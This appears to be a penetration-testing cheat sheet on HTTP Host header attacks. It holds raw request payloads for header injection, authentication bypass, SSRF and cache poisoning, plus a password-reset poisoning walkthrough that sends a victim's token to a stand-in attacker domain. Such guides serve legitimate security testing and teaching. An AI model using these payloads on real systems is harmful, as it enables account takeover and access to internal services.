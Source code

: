 
# Content 
- [How to test for vulnerabilities using the HTTP Host header](#how-to-test-for-vulnerabilities-using-the-http-host-header)
  - [if it still route you for the target endpoint](#1-supply-an-arbitrary-host-header-if-it-still-route-you-for-the-target-endpoint--start-searching-for-functionality-that-use-the-supplied-host-header-you-injected-that-can-be-compromised)
  - [if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header)](#2-supply-an-arbitrary-host-header-if-it-rediects-you-to-another-host-or-can-not-find-the-host-invalid-host-header-or-blocked-invalid-host-header-)
- [Techniques To Use](#techniques-to-use)
  - [injecting a payload via the port](#injecting-a-payload-via-the-port)
  - [advantage of a less-secure subdomain that you have already compromised](#advantage-of-a-less-secure-subdomain-that-you-have-already-compromised)
  - [Inject duplicate Host headers](#inject-duplicate-host-headers)
  - [Supply an absolute URL](#supply-an-absolute-url)
  - [Add line wrapping](#add-line-wrapping)
  - [Inject host override headers](#inject-host-override-headers)
- [Exploit the HTTP Host header](#exploit-the-http-host-header)
  - [password reset poisoning attack](#password-reset-poisoning-attack)
  - [Web cache poisoning](#web-cache-poisoning)
  - [Bypassing authentication](#bypassing-authentication)
  - [Accessing internal websites with virtual host brute-forcing](#accessing-internal-websites-with-virtual-host-brute-forcing)
  - [Routing-based SSRF](#routing-based-ssrf)
  - [Connection state attacks](#connection-state-attacks)
  - [SSRF via a malformed request line](#ssrf-via-a-malformed-request-line)

## How to test for vulnerabilities using the HTTP Host header
#### 1) Supply an arbitrary Host header if it still route you for the target endpoint => start searching for functionality that use the supplied host header you injected that can be compromised 
- Password reset poisoning 
- Web cache poisoning
- Exploiting classic server-side vulnerabilities  (Ex:sql,xxe)
- Routing-based SSRF => check if the host header send dns request for your server 
- Bypassing authentication
#### 2) Supply an arbitrary Host header if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header) : 
- Connection state attacks
- Try to use [below techniques](#techniques-to-use) 
  
## Techniques To Use

#### injecting a payload via the port
```http
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
#### advantage of a less-secure subdomain that you have already compromised
```http
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
#### Inject duplicate Host headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```
#### Supply an absolute URL
```http
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Add line wrapping
```http
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject host override headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```
- X-Forwarded-Host
- X-Host
- X-Forwarded-Server
- X-HTTP-Host-Override
- Forwarded

## Exploit the HTTP Host header
### password reset poisoning attack
 If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:
- get victim's email address or username, as required, and submits a password reset request on their behalf.
- Modify the Host header so that it points to a domain that they control. (evil-user.net)
- The victim receives a password reset email directly from the website. contains a valid password reset token which its domain name in the URL points to the attacker's server: **https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j**
- If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.

In a real attack, the attacker may seek to increase the probability of the victim clicking the link by first warming them up with a fake breach notification 
for example: Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. 

**Note:** that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply. 

### Web cache poisoning
- if you find that the Host header is reflected in the response markup without HTML-encoding, or even used directly in **script imports**. 
- if the target uses a web cache, it may be possible to turn this useless, reflected vulnerability into a dangerous, stored one by persuading the cache to serve a poisoned response to other users. 
### Bypassing authentication 
EX: flawed host header access control bypass : 
```http
GET /admin HTTP/1.1
Host: localhost
```
### Accessing internal websites with virtual host brute-forcing
```http
GET / HTTP/1.1
Host: intranet.example.com
```
### Routing-based SSRF
You can use a webhook to help identify these vulnerabilities. if receive a DNS lookup from the target server or another in-path system when you supply your domain , this indicates that you may be able to route requests to arbitrary domains. 
```http
GET https://VulnWebSite/admin HTTP/1.1
Host: 192.168.0.0
```
### Connection state attacks
```
Connection state attacks: 
For performance reasons, many websites reuse connections for multiple request/response cycles with the same client.
Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the Host header, are identical for all HTTP/1.1 requests sent over the same connection.
This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater. This can lead to a number of potential issues.

```
**EXAMPLE:**  
- you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection.
- In this case, you can potentially bypass this validation by **sending an innocent-looking initial request then following up with your malicious one down the same connection**.

### SSRF via a malformed request line
Custom proxies sometimes fail to validate the request line properly, which can allow you to supply unusual, malformed input with unfortunate results. 
```http
GET @private-intranet/example HTTP/1.1
```
The resulting upstream URL will be:
```http
http://backend-server@private-intranet/example
```
which most HTTP libraries interpret as a request to access private-intranet with the username backend-server. 

